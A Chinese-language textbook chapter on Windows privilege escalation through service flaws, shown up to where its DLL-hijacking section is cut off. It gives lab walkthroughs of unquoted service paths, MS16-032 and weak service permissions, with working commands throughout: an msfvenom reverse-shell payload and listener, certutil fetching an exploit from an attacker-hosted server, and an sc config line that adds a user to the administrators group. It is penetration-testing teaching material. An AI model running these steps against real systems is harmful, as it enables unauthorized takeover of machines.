# 第八章：利用服务

现在你已经对 Windows 上常见的权限提升攻击向量有了较好的了解，我们可以更深入地研究 Windows 服务，并开始探索那些利用服务中的漏洞和配置错误来提升权限的技术。本章的目标是识别并利用 Windows 服务中常见的漏洞和配置错误。

我们将探讨识别和利用未加引号的服务路径和弱服务权限的过程，然后我们将看看如何利用 Windows 次级登录来提升我们的权限。我们还将深入研究识别和劫持丢失的**动态链接库**（**DLLs**）的过程。

在本章中，我们将涵盖以下主要内容：

+   利用服务和配置错误

+   利用未加引号的服务路径

+   利用次级登录

+   利用弱服务权限

+   DLL 劫持

# 技术要求

为了跟随本章中的演示，你需要确保熟悉 Windows CMD 命令。

你可以在这里查看本章的代码示例：[`bit.ly/3utJTyI`](https://bit.ly/3utJTyI)

# 利用服务和配置错误

Windows 利用各种服务来管理和维持标准系统功能，如启动服务、配置启动程序、身份验证和软件安装等等。我们的目标是找到这些服务中的漏洞和配置错误，从而提升我们的权限。

这个过程是动态的，因此将依赖于目标配置和部署的使用情况，主要是因为涉及的技术将依赖于特定服务的实现和配置。

鉴于这一过程的强大性质和所使用的技术，我们将使用我们在本书的*第二章*“*搭建我们的实验环境*”中设置的 Metasploitable3 虚拟机。

这是因为 Metasploitable3 虚拟机运行在 Windows Server 2008 上，并且已配置为作为服务器运行，同时托管各种服务和应用程序。

这个强大的应用程序配置提供了一个非常现实的场景，可以实际演示我们将在本章中使用的工具和技术。

在我们开始之前，请确保你已经在目标系统上站稳了脚跟，并且能够通过命令行或 Meterpreter 会话访问该系统。

本章中使用的技术和工具将涉及利用本地 Windows 命令和特定的 Meterpreter 模块来自动化该过程的各个方面。

# 利用未加引号的服务路径

在启动或运行服务时，Windows 需要目标可执行文件的位置来执行。可执行文件的路径通常用引号括起来，这样 Windows 就能定位可执行文件的路径或位置。以下路径是一个安全的服务路径示例：

"C:\Program Files\OpenSSH\bin\cygrunsrv.exe"

如果可执行文件的路径没有被引号包围，Windows 将会搜索每个目录并执行每个文件，直到找到目标可执行文件。我们可以利用此漏洞，通过识别一个在管理员权限下运行且未被引号包围的服务来提升我们的权限。以下路径是我们可以利用的不安全服务路径示例：

C:\Program Files\OpenSSH\bin\cygrunsrv.exe

利用过程涉及生成并上传一个二进制文件到目标系统，当执行时，它将为我们提供一个提权的反向 shell 或 Meterpreter 会话。

可以按照以下步骤重现此技术：

1.  该过程的第一步是识别未被引号包围的服务路径，可以通过使用**Windows 管理工具**（**WMIC**）接口结合`findstr`工具来完成。在目标系统的 Windows 命令行中运行以下命令即可完成此操作：

    `wmic service get name,displayname,pathname,startmode |findstr /i /v "c:\" |findstr /i /v """`

    此命令将输出一个带有未加引号服务路径的服务列表；在我们的案例中，我们能够识别出许多未加引号的服务路径，且可以利用它们。如以下截图所示，我们可以利用 OpenSSH 服务路径：

    

    图 8.1 – 查找未加引号的服务路径

    我们使用 OpenSSH 服务的原因是该服务需要管理员权限才能运行，因此它是在管理员用户下执行的。

1.  下一步是检查目录权限，以确定我们是否能够写入或更改 OpenSSH 服务目录的内容。我们可以使用**完整性控制访问控制列表**（**icacls**）工具检查目录的权限，通过运行以下命令：

    `icacls "C:\Program Files\OpenSSH"`

    如下截图所示，运行此命令会输出目录权限；在此案例中，系统上的标准用户具有写入权限，因此我们可以修改该目录的内容，因为我们是`BUILTIN\Users`组的成员：

    

    图 8.2 – 服务路径权限

    我们可以利用这个错误配置来提升权限，通过将 OpenSSH 可执行文件替换为反向 shell 二进制文件。一旦 OpenSSH 服务已启动或重新启动，反向 shell 二进制文件将被执行，而不是 OpenSSH 可执行文件。

    提示

    反向 shell 有效负载应该与我们尝试利用的服务名称相同，并且应该上传到我们之前确定的相应服务路径。

1.  我们可以使用`msfvenom`生成 Meterpreter 有效负载并将其保存为可执行文件。可以通过在 Kali 中运行以下命令来实现：

    `msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=<LISTENER-IP> LPORT=<PORT> -f exe > /home/kali/Desktop/cygrunsrv.exe`

1.  在生成有效负载后，我们可以将其上传到 OpenSSH 服务路径，如下所示：

    C:\Program Files\OpenSSH\bin

1.  在上传 Meterpreter 有效负载之前，我们需要更改原始二进制文件的名称。然而，建议在该过程没有按预期工作时备份原始二进制文件。可以通过在 Meterpreter 会话中运行以下命令删除原始可执行文件：

    **删除 cygrunsrv.exe**

1.  我们现在可以通过运行以下命令，将 Meterpreter 可执行文件上传到目标的 OpenSSH 服务路径：

    **上传 /home/kali/Desktop/cygrunsrv.exe**

    如果你使用的是标准命令 shell，可以使用 `certutil` 工具将二进制文件传输到目标系统。

1.  如下图所示，这将把 Meterpreter 可执行文件上传到 OpenSSH 服务路径：![图 8.3 – 上传 Meterpreter 有效负载]

    ](Images/B17389_08_003.jpg)

    图 8.3 – 上传 Meterpreter 有效负载

1.  我们现在需要使用 Metasploit 设置 Meterpreter 监听器。这可以通过在 Metasploit 控制台中运行以下命令来完成：

    **使用 /exploit/multi/handler**

1.  下一步是指定我们用 `msfvenom` 创建二进制文件时所使用的有效负载。这可以通过运行以下命令来完成：

    **设置有效负载 /windows/x64/meterpreter/reverse_tcp**

1.  我们现在需要配置模块选项。在此情况下，我们需要配置 `LHOST` 和 `LPORT` 选项，如下图所示：![图 8.4 – Meterpreter 有效负载选项]

    ](Images/B17389_08_004.jpg)

    图 8.4 – Meterpreter 有效负载选项

1.  在设置模块选项后，我们可以通过运行以下命令启动监听器：

    **运行**

    监听器将会监听来自我们使用`msfvenom`生成的有效负载的任何传入连接。

1.  为了执行 Meterpreter 可执行文件，我们需要重启 OpenSSH 服务。这可以通过在 Windows 命令 shell 中运行以下命令来完成：

    `sc stop OpenSSHd`

    `sc start OpenSSHd`

1.  如下图所示，这将重新启动 OpenSSH 服务，接着我们应该会在监听器上收到一个特权的 Meterpreter 会话：![图 8.5 – Meterpreter 会话]

    ](Images/B17389_08_005.jpg)

    图 8.5 – Meterpreter 会话

1.  我们可以通过运行以下命令来验证我们是否有升级的 Meterpreter 会话：

    `getuid`

    如下截图所示，我们已成功提升权限，并应该具有具有管理权限的 Meterpreter 会话：

    

    图 8.6 – 未引用服务路径 Meterpreter 权限

1.  我们还可以通过使用 Metasploit 模块自动化流程来识别和利用具有未引用服务路径的目标服务，并自动上传一个提供我们升级 Meterpreter 会话的反向 shell 有效负载。这可以通过在 Metasploit 控制台中运行以下命令来完成：

    `use exploit/windows/local/unquoted_service_path`

    加载模块后，我们需要配置模块选项。在这种情况下，我们需要配置`SESSION` ID 和目标有效负载，如下截图所示：

    

    图 8.7 – 未引用服务路径模块选项

1.  在配置模块选项后，我们可以通过在 Metasploit 控制台中运行以下命令来启动模块：

    `run`

    如下截图所示，如果模块成功运行，我们应该收到一个具有提升权限的 Meterpreter 会话：

    

    图 8.8 – 未引用服务路径 Meterpreter 会话

1.  我们可以通过运行以下命令来验证我们是否有升级的 Meterpreter 会话：

    `getuid`

    如下截图所示，我们已成功提升权限，并应该具有具有管理权限的 Meterpreter 会话：



图 8.9 – 未引用服务路径 Meterpreter 权限

我们现在已成功通过未引用服务路径提升了权限，并可以探索利用次级登录句柄的过程。

# 利用次级登录

次级登录是 Windows 服务，管理员可以通过标准系统帐户执行管理任务。该服务可以通过影响以下 Windows 版本的固有漏洞而被利用：

+   Windows 7

+   Windows Server 2008

+   Windows 8.1

+   Windows Server 2012

+   Windows 10

利用过程利用了次级登录服务中句柄的不规范化，这可以允许用户复制系统服务线程句柄。

在本节中，我们将看看如何手动和自动利用 Metasploit 框架来利用此漏洞。然而，需要注意的是，利用需要满足一定的依赖关系才能使此过程正常工作：

+   目标系统应该有两个或更多 CPU 核心。

+   目标系统应运行 PowerShell V2.0 或更高版本。

有关此漏洞的更多信息，请参见：[`docs.microsoft.com/en-us/security-updates/securitybulletins/2016/ms16-032`](https://docs.microsoft.com/en-us/security-updates/securitybulletins/2016/ms16-032)。

在我们开始之前，请确保你已经在目标系统上占据了一个立足点，并通过命令行外壳或 Meterpreter 会话获取访问权限。

现在我们已经了解了利用过程的工作原理，我们可以看看如何利用这个漏洞来提升我们的权限：

1.  我们已经深入了解了如何在*第四章*《执行本地枚举》中搜索和识别漏洞，并能够推断出 Metasploitable3 虚拟机易受此攻击。我们可以通过利用 Metasploit 模块来自动化利用过程，来开始这一过程。可以通过在 Metasploit 控制台中加载以下模块来实现：

    `use exploit/windows/local/ms16_032_secondary_logon_handle_privesc`

    加载模块后，我们需要配置模块选项。在这种情况下，我们需要设置默认有效载荷、会话 ID、`LPORT` 和 `LHOST` 选项，如下截图所示：

    

    图 8.10 – 次级登录句柄模块选项

1.  配置完模块选项后，我们可以通过在 Metasploit 控制台中运行以下命令来启动该模块：

    `run`

    如下截图所示，如果模块成功运行，我们应该会收到一个具有提升权限的 Meterpreter 会话：

    

    图 8.11 – 次级登录句柄利用成功

1.  我们可以通过运行以下命令来验证我们是否拥有提升权限的 Meterpreter 会话：

    `getuid`

    如下截图所示，我们已经成功提升了权限，并应当拥有一个具有管理员权限的 Meterpreter 会话：

    

    图 8.12 – 次级登录句柄 Meterpreter 权限

1.  另外，如果你无法通过 Meterpreter 会话访问目标系统，你可以编译利用程序并将其传输到目标系统。该漏洞的预构建利用程序二进制文件可以在这里找到：[`github.com/SecWiki/windows-kernel-exploits/tree/master/MS16-032`](https://github.com/SecWiki/windows-kernel-exploits/tree/master/MS16-032)。

    如下截图所示，GitHub 仓库包含了一个 PowerShell 脚本和适用于 x64 和 x86 系统的预构建二进制文件：



图 8.13 – MS16_032 GitHub 仓库

然而，建议您自己分析并编译利用代码。该漏洞的源代码可以在这里找到：[`github.com/khr0x40sh/ms16-032`](https://github.com/khr0x40sh/ms16-032)。

下载或编译二进制文件后，我们需要将其传输到目标系统。这可以通过以下过程来实现：

1.  要在我们的 Kali 虚拟机上设置一个 Web 服务器，我们可以使用`SimpleHTTPServer` Python 模块来提供二进制文件。可以通过在存储`ms16-032.exe`二进制文件的目录中运行以下命令来实现：

    `sudo python -m SimpleHTTPServer 80`

1.  或者，您也可以通过运行以下命令使用 Python 3 的`http.server`模块：

    `sudo python3 -m http.server 80`

1.  现在我们可以使用`certutil`工具将二进制文件从 Kali 虚拟机下载到目标系统。可以通过在目标系统上运行以下命令来实现：

    `certutil -urlcache -f http://<KALI-VM-IP>/ms16-032.exe ms16-032.exe`

1.  现在我们可以执行`ms16-032.exe`二进制文件。可以通过运行以下命令来实现：

    `.\ms-16-032.exe`

    如果二进制文件成功运行，您应该会收到类似于以下截图中突出显示的输出：



图 8.14 – MS16-032 手动利用

我们已经成功地通过手动和自动方式利用次级登录服务提升了权限。

现在，我们来看看如何识别和利用弱服务权限来提升我们的权限。

# 利用弱服务权限

此利用涉及利用配置不当的服务权限来提升我们的权限。此过程的目标是识别以`SYSTEM`或管理员权限运行的服务，并利用该服务的错误权限配置，通过`BINARY_PATH_NAME`参数执行任意命令。

我们可以利用这个漏洞将标准用户添加到本地管理员组，从而在系统上提升权限。

利用过程可以按照以下步骤进行：

1.  该过程的第一步是识别标准用户可以访问的服务和应用程序。可以通过使用`accesschk`工具来简化此过程，该工具位于`Sysinternals`套件中。`accesschk`可执行文件可以从这里下载：[`docs.microsoft.com/en-us/sysinternals/downloads/accesschk`](https://docs.microsoft.com/en-us/sysinternals/downloads/accesschk)。

1.  将`accesschk`可执行文件下载到我们的 Kali 虚拟机后，我们需要将其传输到目标系统。这可以通过 Meterpreter 运行以下命令来实现：

    `upload /<PATH-TO-EXECUTABLE/accesschk64.exe`

    如果你正在使用标准命令行，可以使用`certutil`工具将二进制文件传输到目标系统。

1.  在将`accesschk.exe`二进制文件上传到目标系统后，我们可以通过运行以下命令列举标准用户可以访问的服务列表：

    `.\accesschk64.exe -uwcqv "vagrant" * -accepteula`

1.  在我们的案例中，我们将使用标准的`vagrant`用户。如以下截图所示，命令应该输出具有`SERVICE_ALL_ACCESS`权限的服务列表：

    注意

    `SERVICE_ALL_ACCESS`权限允许系统上的任何用户控制并修改服务的参数。

    

    图 8.15 – accesschk 结果

    我们能够识别出具有`SERVICE_ALL_ACCESS`权限的大量服务。在我们的案例中，我们将主要针对 OpenSSH 服务，因为我们已经确认它以`SYSTEM`或管理员权限运行。

1.  下一步是列举与服务及其相应参数相关的其他信息。这可以通过在 Windows 命令行中运行以下命令来完成：

    `sc qc OpenSSHd`

    如以下截图所示，命令将输出有关服务及其参数的信息：

    

    ](Images/B17389_08_016.jpg)

    图 8.16 – 服务参数

1.  我们可以修改`BINARY_PATH_NAME`以执行任意命令。在我们的案例中，我们将把`vagrant`用户添加到本地管理员组。这可以通过运行以下命令来实现：

    `sc config "OpenSSHd" binPath= "net localgroup administrators vagrant /add"`

    如以下截图所示，如果操作成功执行，`vagrant`用户账户将被添加到本地管理员组，并应具备管理员权限：

    

    ](Images/B17389_08_017.jpg)

    图 8.17 – 修改二进制路径

1.  在修改二进制路径参数后，我们需要重新启动 OpenSSH 服务。这可以通过在 Windows 命令行中运行以下命令来完成：

    `sc stop OpenSSHd`

    `sc start OpenSSHd`

1.  我们可以通过在 Windows 命令行中运行以下命令来验证`vagrant`用户账户是否已添加到本地管理员组：

    `net localgroup administrators`

    如以下截图所示，`vagrant`用户账户现在是本地管理员组的成员，并且具有管理员权限：

    

    ](Images/B17389_08_018.jpg)

    图 8.18 – 本地管理员组成员

1.  这个过程也可以通过使用一个名为`exploit/windows/local/service_permissions`的 Metasploit 模块来自动化。我们可以通过在 Metasploit 控制台中运行以下命令来加载该模块：

    `use exploit/windows/local/service_permissions`

    加载模块后，我们需要配置模块选项。在本例中，我们需要设置默认的 payload、`LHOST`、`LPORT` 和会话 ID 选项，如以下截图所示：

    

    图 8.19 – 服务权限模块选项

1.  配置模块选项后，我们可以通过在 Metasploit 控制台中运行以下命令来启动模块：

    `run`

    如以下截图所示，如果模块运行成功，我们应该会收到一个具有提升权限的 Meterpreter 会话：

    

    图 8.20 – 服务权限模块 Meterpreter 会话

1.  我们可以通过运行以下命令来验证我们是否拥有提升权限的 Meterpreter 会话：

    `getuid`

    如以下截图所示，我们已经成功提升了权限，并且应该拥有一个具有管理员权限的 Meterpreter 会话：



图 8.21 – 服务权限 Meterpreter 权限

我们已经能够通过手动和自动方式成功提升权限，利用了弱服务权限。

现在我们可以来看一下 DLL 劫持的过程以及如何利用它来提升我们的权限。

# DLL 劫持

Windows `DLLs` 是在应用程序或服务启动时使用或调用的库。如果应用程序或服务无法找到所需的 DLL，我们可以强制应用程序或服务加载我们自己的 DLL，该 DLL 将运行任意命令以提升我们的权限。

为了使此过程有效，我们必须首先找到一个以 `SYSTEM` 权限运行的应用程序，并且该应用程序必须具有允许我们上传自定义 DLL 的适当路径权限。

应用程序可以从 Windows 上的不同路径加载 DLL，通常会遵循以下顺序：

1.  应用程序路径或目录

1.  `C:\Windows\System32`

1.  `C:\Windows\System`

1.  `C:\Windows`

1.  `C:\Program Files`

1.  `PATH` 环境变量

我们还可以在没有定义路径的应用程序或服务的 DLL 上执行 DLL 劫持。以下代码片段是一个绝对路径的示例：

PATH = C:\Windows\System32\example.dll

如前面的代码片段所示，DLL 的路径已被指定，因此应用程序或服务知道准确的 DLL 位置。以下代码片段是一个没有定义路径的应用程序或服务 DLL 路径的示例，这可以被利用：

PATH = example.dll

为了理解这个过程，让我们看一个场景，详细解释并演示整个过程。

## 设置我们的环境

在本节中，我们将使用在本书*第二章*《设置我们的实验室》中设置的 Windows 7 SP1 虚拟机。我们还将设置一个易受攻击的服务，用于演示 DLL 劫持过程。

要开始设置环境，请按照以下步骤操作：

1.  该过程的第一步是下载并运行一个 Windows 批处理脚本，在 Windows 7 虚拟机上执行。脚本可以从以下链接下载：[`raw.githubusercontent.com/sagishahar/lpeworkshop/master/lpe_windows_setup.bat`](https://raw.githubusercontent.com/sagishahar/lpeworkshop/master/lpe_windows_setup.bat)。

    这个脚本将负责设置将在本章演示中使用的各种易受攻击服务。

1.  下载批处理脚本后，您需要以管理员权限执行它，具体操作请参见以下截图：

    图 8.22 – 设置脚本执行选项

1.  执行脚本后，它将开始设置我们将在本节中使用的各种易受攻击的服务。设置过程完成后，系统将提示您重新启动，如下图所示：

    图 8.23 – 设置脚本完成

1.  系统重启后，我们需要启动易受攻击的 DLL 服务。可以通过在目标虚拟机的 Windows 命令提示符下运行以下命令来完成：

    `sc start dllsvc`

    如下图所示，如果初始设置过程顺利执行，服务应能无误地启动：



图 8.24 – 启动易受攻击的 DLL 服务

启动`dllsrv`服务后，我们的易受攻击服务应已启动并运行，我们可以进入利用阶段。

## DLL 利用过程

现在，我们已经将目标系统配置为具有各种易受攻击的服务，可以开始 DLL 劫持过程。

在我们开始演示之前，请确保您已经在目标系统上建立了初步的立足点：

1.  利用阶段的第一步是识别缺少 DLL 的应用程序或服务。可以通过我们在本书*第四章*《执行本地枚举》中使用的`winPEAS`枚举工具来完成此操作。

    winPEAS 二进制文件可以从 GitHub 仓库下载，链接如下：[`github.com/carlospolop/privilege-escalation-awesome-scripts-suite/tree/master/winPEAS/winPEASexe`](https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite/tree/master/winPEAS/winPEASexe)。

    确保根据目标操作系统的架构下载正确的二进制文件；架构特定的二进制文件可以在 `binaries` 文件夹中找到，如以下截图所示：

    

    图 8.25 – winPEAS 二进制文件

1.  下载二进制文件到我们的 Kali 虚拟机后，我们需要将 `winPEAS.exe` 二进制文件传输到目标虚拟机。

    我们可以通过运行以下命令，通过 Meterpreter 将 `winPEAS.exe` 二进制文件传输到目标系统：

    `upload /<PATH-To-BINARY>/winPEASx64.exe`

    如果你使用的是标准命令行，可以使用 `certutil` 工具将二进制文件传输到目标系统。

1.  将 `winPEAS.exe` 二进制文件上传到目标系统后，我们可以通过运行以下命令列出缺少 DLL 的服务：

    `.\winPEASx64.exe servicesinfo`

    如以下截图所示，这将列出缺少 DLL 的服务及其相应路径。在我们的例子中，我们能够识别出具有必要权限的 `dllsvc` 服务的应用程序路径：

    

    图 8.26 – winPEAS DLL 劫持路径

    我们还能够识别出易受攻击的 DLL 劫持服务，如以下截图所示：

    

    图 8.27 – winPEAS DLL 劫持服务

1.  我们还可以手动识别 `dllhijackservice.exe` 的缺失 DLL。这可以通过进程监视器工具完成，可以在此处下载：[`docs.microsoft.com/en-us/sysinternals/downloads/procmon`](https://docs.microsoft.com/en-us/sysinternals/downloads/procmon)。

1.  下载进程监视器可执行文件到目标系统后，我们可以执行它并设置以下截图中突出的过滤器选项：

    图 8.28 – 进程监视器结果过滤器

1.  设置结果过滤器为 `NAME NOT FOUND` 后，我们需要设置一个额外的路径过滤器，仅显示 `.dll` 文件，如以下截图所示：

    图 8.29 – 进程监视器路径过滤器

1.  在添加了两个过滤器之后，您的过滤器配置应类似于以下截图中的配置：

    图 8.30 – 进程监视器过滤器

    设置好过滤器后，可以通过点击 `Apply` 按钮应用过滤器，如前面的截图所示。

    这些过滤器将仅显示缺失 DLL 的服务及其相应的 DLL 名称。在这种情况下，我们可以识别出易受攻击的服务以及缺失的 DLL 名称及其相应的路径，如以下截图所示：

    

    图 8.31 – 进程监视器缺失 DLL

    现在我们可以生成我们的自定义 DLL，当执行时，它将为我们提供一个 Meterpreter 会话。

